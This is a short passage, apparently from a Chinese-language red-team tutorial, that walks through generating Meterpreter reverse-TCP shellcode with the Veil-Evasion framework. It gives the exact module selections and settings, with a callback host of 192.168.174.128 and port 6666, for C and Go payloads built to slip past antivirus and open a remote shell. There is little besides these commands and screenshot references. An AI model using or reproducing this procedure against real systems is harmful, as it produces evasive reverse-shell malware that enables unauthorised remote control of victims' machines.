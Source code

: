先用veil生成shellcode

```
# veil
Veil> use 1								# 选择使用 Veil-Evasion 模块
Veil/Evasion> use 7						# 选择payload  c/meterpreter/rev_tcp.py
[cs/meterpreter/rev_tcp>>] set LHOST 192.168.174.128
[cs/meterpreter/rev_tcp>>] set LPORT 6666
[cs/meterpreter/rev_tcp>>] generate
```

![image-20220527101615402](./images/202205271016580.png)

输入生成文件名为`c_msf`：

![image-20220527101633513](./images/202205271016611.png)


[go/meterpreter/rev_tcp>>]: set lhost 192.168.174.128
[go/meterpreter/rev_tcp>>]: set lport 6666
[go/meterpreter/rev_tcp>>]: generate